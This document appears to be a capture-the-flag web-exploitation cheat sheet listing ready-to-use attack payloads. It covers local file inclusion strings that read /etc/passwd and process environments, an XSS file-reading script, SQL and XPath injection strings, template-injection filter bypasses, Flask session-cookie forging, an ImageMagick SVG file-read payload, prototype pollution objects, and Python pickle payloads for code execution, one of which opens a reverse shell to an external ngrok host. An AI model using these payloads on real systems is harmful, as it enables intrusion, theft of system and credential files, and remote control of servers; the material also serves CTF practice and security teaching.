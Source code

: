 ### Tricks 

- **Protocols**
  - `file:///etc/passwd`

- **Headers**
  - `X-Forwarded-Host`

### Local File Inclution
  - `/robots.txt`
  - `/.git`
  - `/sitemap.xml`
  - `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
  - `?file='.system("cat /flag*").'`
  - `/../../../../../../proc/self/environ`
  - `/_nuxt/@fs/flag.txt`

### XSS

  - **LFI** read file
```javascript
<script>
  x = new XMLHttpRequest;
  x.onload=function() {
    document.write(this.responseText)
  }; 
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>;
````

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

- **RCE**
```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

print(base64.b64encode(pickle.dumps(DillPickle())).decode())
```

- **Get shell**
```python
class RCE(object):
  def __reduce__(self):
    return (os.system,('''python2 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.jp.ngrok.io",13180));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

p = base64.b64encode(pickle.dumps(RCE())).decode()
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

### Prototype pollution

- **Lodash**
  - `{"constructor": {"prototype": {"admin": True}}}`
  - `{"__proto__": {"name": "user", "password": "pass", "admin": True}}`
  
